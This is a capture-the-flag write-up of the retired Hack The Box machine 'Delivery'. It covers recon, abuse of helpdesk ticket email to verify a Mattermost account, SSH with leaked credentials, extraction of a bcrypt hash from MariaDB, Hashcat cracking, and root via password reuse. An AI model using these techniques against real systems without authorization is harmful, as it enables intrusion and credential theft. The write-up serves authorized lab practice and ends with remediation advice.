

<p align="center">
  
</p>

# delivery - hack the box


**platform:** Hack The Box · retired machine  
**os:** Linux (Debian)  
**outcome:** SSH as `maildeliverer`, Linux root via credential reuse  
**focus:** osTicket · email verification · Mattermost · MariaDB · bcrypt · Hashcat · password reuse

---

## `00 / prep`

```shell
CPTS/CPTS-Day03/delivery
❯ ll
total 24K
-rw-rw-r-- 1 kali kali    0 Nov 13 11:33 env.fish
drwxrwxr-x 2 kali kali 4.0K Nov 13 11:35 logs/
drwxrwxr-x 2 kali kali 4.0K Nov 13 11:34 loot/
drwxrwxr-x 2 kali kali 4.0K Nov 13 11:34 notes/
drwxrwxr-x 2 kali kali 4.0K Nov 13 11:35 report/
drwxrwxr-x 2 kali kali 4.0K Nov 13 11:34 scans/
drwxrwxr-x 2 kali kali 4.0K Nov 13 11:35 screenshots/

❯ cat env.fish
# Engagement configuration
set -gx ENGAGEMENT "delivery"
set -gx IP "10.129.102.8"

# New logging destination
set -gx ENGAGEMENT_DIR (pwd -P)

# Copy to tmux session
if set -q TMUX
	set -l session (tmux display-message -p '#S')

	tmux set-environment -t "$session" ENGAGEMENT "$ENGAGEMENT"
	tmux set-environment -t "$session" IP "$IP"
	tmux set-environment -t "$session" ENGAGEMENT_DIR "$ENGAGEMENT_DIR"
end
```
---

## `01 / recon`

### service discovery

began with a port and service scan of the top ports. focused on the webserver on port 80 as most likely to be insecure.

```console
❯ nmap -sVC -oA scans/initial $IP
Starting Nmap 7.991 at 2026-11-13 11:51 -0500
Nmap scan report for 10.129.102.8
Host is up (0.048s latency).
Not shown: 998 closed tcp ports (reset)

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    nginx 1.14.2
|_http-title: Welcome
|_http-server-header: nginx/1.14.2

Service Info: OS: Linux
```

### website links and virtual hosts

visited port 80 and inspected the source. was able to determine the domain and a subdomain.

```html
<--snip-->
<p>For unregistered users, please use our
  <a href="http://helpdesk.delivery.htb">HelpDesk</a>
  to get in touch with our team.</p>
<p>Once you have an @delivery.htb email address, you'll be able
  to have access to our
  <a href="http://delivery.htb:8065">MatterMost server</a>.</p>
<--snip-->
```

updated /etc/hosts

`10.129.102.8    delivery.htb helpdesk.delivery.htb`

### follow-up enumeration

a full `nmap`port scan returned another port to investigate

```shell
CPTS/CPTS-Day03/delivery
❯ cat scans/allports.nmap
# Nmap 7.991 scan initiated Fri Nov 13 11:55:55 2026 as: /usr/lib/nmap/nmap --privileged -p- --min-rate 1000 -oA scans/allports 10.129.102.8
Nmap scan report for 10.129.102.8
Host is up (0.045s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8065/tcp open  unknown

# Nmap done at Fri Nov 13 11:59:04 2026 -- 1 IP address (1 host up) scanned in 189.02 seconds
```

---

### helpdesk and mattermost reconnaissance

the main site links to HelpDesk (`helpdesk.delivery.htb`) and Mattermost (`delivery.htb:8065`). browser inspection confirmed a Mattermost login page with account creation and password reset links. HelpDesk identifies itself as an osTicket support center and offers guest ticket creation, ticket-status lookup, client registration, and an agent login.

observations before attempting registration:

- HelpDesk ticket creation requires an email address, full name, help topic and CAPTCHA; a phone number is optional
- Ticket-status lookup asks for both an email address and ticket number
- `curl -I http://helpdesk.delivery.htb/` returned HTTP `200 OK`, with an `OSTSESSID` cookie marked `HttpOnly`


### registration verification and authenticated enumeration

**methodology:** the HelpDesk ticket-specific address acted as an accessible verification mailbox for a separate Mattermost identity. this was demonstrated by retrieving the activation email, verifying the account, and accessing internal messages. the disclosed server credentials remain **unverified** until tested on an authorized service.

opening a ticket


using the email provided by opening the ticket, I signed up and received the verification email from `Mattermost`
*Screenshot retained privately because it contains an email verification token.*


after verification and authentication, I was able to join the internal team


messages from root exposed creds

*Screenshot retained privately because it contains plaintext lab credentials.*

---

## `02 / initial access`

tested the creds posted by `root` on the SSH service

```shell
❯ ssh maildeliverer@$IP
maildeliverer@10.129.102.8's password:
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64
maildeliverer@Delivery:~$
```

```shell
maildeliverer@Delivery:~$ id
uid=1000(maildeliverer) gid=1000(maildeliverer) groups=1000(maildeliverer)
maildeliverer@Delivery:~$ pwd
/home/maildeliverer
```

sudo check returned `Sorry, user maildeliverer may not run sudo on Delivery.`

---

## `03 / application configuration and database enumeration`

### mattermost configuration

I found the Mattermost configuration under `/opt/mattermost/config/config.json`. It exposed a local MySQL/MariaDB datasource for the `mattermost` database. The service listened on `:8065` and the database connection used `127.0.0.1:3306`.

```bash
cat /opt/mattermost/config/config.json
maildeliverer@Delivery:/opt/mattermost/config$ command -v mysql mariadb
/usr/bin/mysql
/usr/bin/mariadb
maildeliverer@Delivery:/opt/mattermost/config$ mysql -h 127.0.0.1 -u mmuser -p mattermost
Enter password:
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 139
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [mattermost]>
```

recovered datasource credentials worked. The database had 46 tables, including `Users` and `Posts`.

```sql
SHOW TABLES;
DESCRIBE Users;
DESCRIBE Posts;
```

```bash
MariaDB [mattermost]> show tables;
+------------------------+
| Tables_in_mattermost   |
+------------------------+
<--snip-->
| Users                  |
+------------------------+
46 rows in set (0.001 sec)
```
### identify administrators and hashes

after some enumeration, I was able to identify the ad

```bash
MariaDB [mattermost]> select Password from Users where Username = 'root';
+--------------------------------------------------------------+
| Password                                                     |
+--------------------------------------------------------------+
| [REDACTED BCRYPT HASH] |
+--------------------------------------------------------------+
1 row in set (0.001 sec)
```

`$2a$10` indicates bcrypt ran 10 times; cracking wouldn't be easy so I continued enumeration

### joining posts to authors


```sql
SELECT u.Username, p.Message
FROM Posts AS p
JOIN Users AS u ON p.UserId = u.Id
LIMIT 10;
```

That immediately exposed the password-reuse warning as well as the SSH credential post. For a focused search I used `REGEXP` rather than searching only for the literal word `password`.

```sql
SELECT u.Username, p.Message, p.DeleteAt
FROM Posts AS p
LEFT JOIN Users AS u ON p.UserId = u.Id
WHERE p.Message REGEXP 'password|cred|config|secret|token|ssh|key'
ORDER BY p.CreateAt DESC;
```

```bash
MariaDB [mattermost]> SELECT
    ->     u.Username,
    ->     p.Message,
    ->     p.DeleteAt
    -> FROM Posts AS p
    -> LEFT JOIN Users AS u ON p.UserId = u.Id
    -> WHERE p.Message REGEXP 'password|cred|config|secret|token|ssh|key'
    -> ORDER BY p.CreateAt DESC;
+----------+---------------------------------------------------------------------------------------------------------------------------------------------------+---------------+
| Username | Message                                                                                                                                           | DeleteAt      |
+----------+---------------------------------------------------------------------------------------------------------------------------------------------------+---------------+
| root     | Also please create a program to help us stop re-using the same passwords everywhere.                                                              | 1608998219507 |
| root     | Also please create a program to help us stop re-using the same passwords everywhere.... Especially those that are a variant of "[BASE PHRASE]" |             0 |
| root     | Also please create a program to help us stop re-using the same passwords everywhere.... Especially those that are a variant of [BASE PHRASE]   | 1609157941192 |
| root     | @developers Please update theme to the OSTicket before we go live.  Credentials to the server are maildeliverer:[REDACTED]                   |             0 |
+----------+---------------------------------------------------------------------------------------------------------------------------------------------------+---------------+
4 rows in set (0.001 sec)
```

one of the retained messages explicitly warned about reused passwords based on `[BASE PHRASE]`


---

## `04 / offline cracking and privilege escalation`

### targeted bcrypt cracking

rather than immediately running a massive generic dictionary against bcrypt, I used the discovered phrase as a single-word base list

```bash
printf '%s\n' '[BASE PHRASE]' > passwords
# root.bcrypt contains the recovered bcrypt verifier; keep this local
hashcat -m 3200 -a 0 root.bcrypt passwords \
  -r /usr/share/hashcat/rules/best66.rule
```

```text
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Guess.Base.......: File (passwords)
Guess.Mod........: Rules (.../best66.rule)
Rules............: 66
Status...........: Cracked
Recovered........: 1/1
Progress.........: 21/66
Speed.#01........: 15 H/s
```

The successful run used:

```console
❯ hashcat -m 3200 -a 0 root.bcrypt passwords -r /usr/share/hashcat/rules/best66.rule
Rules: 66
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Recovered........: 1/1 (100.00%)
Progress.........: 21/66 (31.82%)
Speed.#01........: 15 H/s
```

cracked pass was the base phrase plus a two-digit suffix

### validate reuse against Linux root

 since the post had explicitly discussed password reuse, I tested it for `root`

```bash
maildeliverer@Delivery:~$ su root
Password:
root@Delivery:/home/maildeliverer# cd /root
root@Delivery:~# ls
mail.sh  note.txt  py-smtp.py  root.txt
```


`/root/note.txt` explained that the box was inspired by real-world support-desk issues and linked to an Intigriti article

---

## `05 / findings and lessons`

### systems / methods / findings

| system | method | finding |
|---|---|---|
| osTicket | guest ticket / status workflow | ticket-specific address and visible verification messages allowed cross-application signup |
| Mattermost | authenticated channel review | SSH credential disclosed in an internal post |
| Linux | SSH and local enumeration | shell as `maildeliverer`; no sudo privileges |
| Mattermost config | local configuration inspection | MariaDB account credential exposed to the shell user |
| MariaDB | schema review, JOIN, `REGEXP`, soft-deletion inspection | bcrypt admin hash and password-reuse pattern recovered |
| Hashcat | mode 3200, dictionary + best66 rule | targeted bcrypt hash recovery |
| Linux | `su root` | administrator password reuse permitted root login |


### remediation themes

The main issues were insecure verification through an accessible helpdesk ticket, credential disclosure in a messaging system, overly accessible application secrets, and password reuse across different trust boundaries. Appropriate fixes include stricter email ownership verification, secret handling controls, least privilege for service configuration, unique credentials, and monitoring/revocation after disclosure.

---

<sub>nu11s3c </sub>
